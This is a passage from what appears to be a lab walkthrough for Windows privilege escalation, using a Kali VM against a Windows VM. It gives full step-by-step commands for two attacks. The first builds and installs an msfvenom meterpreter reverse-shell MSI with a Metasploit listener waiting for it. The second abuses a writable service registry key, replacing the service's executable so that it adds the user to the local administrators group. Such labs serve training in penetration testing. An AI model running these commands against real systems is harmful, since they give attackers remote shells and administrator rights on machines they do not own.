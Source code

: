 #### exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp
4. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp lhost=\[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.

Windows VM

1. Place ‘setup.msi’ in ‘C:\Temp’.
2. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

***

### Registry

#### Detection

Windows VM

1. Open powershell prompt and type: Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
2. Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

#### Exploitation

Windows VM

1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows\_service.c’ to the Kali VM.

Kali VM

1. Open windows\_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86\_64-w64-mingw32-gcc windows\_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')
3. Copy the generated file x.exe, to the Windows VM.

Windows VM

1. Place x.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG\_EXPAND\_SZ /d c:\temp\x.exe /f
3. In the command prompt type: sc start regsvc
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
